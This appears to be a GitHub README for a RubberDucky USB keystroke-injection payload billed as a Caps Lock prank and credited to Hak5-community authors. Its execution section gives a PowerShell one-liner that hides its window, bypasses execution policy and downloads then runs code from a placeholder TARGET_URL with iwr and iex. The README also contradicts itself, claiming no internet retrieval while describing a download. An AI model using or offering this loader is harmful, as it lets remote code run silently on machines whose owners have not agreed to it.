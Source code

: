 
<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# simple_capslock_prank

## Description
This is a small exploit that is meant to be used with the RubberDucky flashdrive device. I have taken inspiration from another security researcher called atomiczsec. He wrote the original script but I have adapted it and made it in-line deployable, meaning it does not require the retrieval of any files through the internet. In addition, I used the video tutorial by Darren Kitchen(Hak5) at https://www.youtube.com/watch?v=DYhu5yg_OzA. 
## Getting Started

### Dependencies

- Windows 10,11
- None for this inline version, should work standalone upon deployment through RubberDucky

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

- Plug in your device
- Define the `DEFINE TARGET_URL example.com`
- Device will download both files and place them in proper directories to then run the script

```
powershell -w h -NoP -NonI -ep Bypass $pl = iwr TARGET_URL dl=1; iex $pl
```

<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here:

GitHub @[dragoseven](https://github.com/dragoseven) 

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

- 1.0
  - Test v1

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->

## Acknowledgments

- [Hak5](https://hak5.org/)
- [I-Am-Jakoby](https://github.com/I-Am-Jakoby)
- [atomiczsec](https://github.com/atomiczsec)

<p align="right">(<a href="#top">back to top</a>)</p>
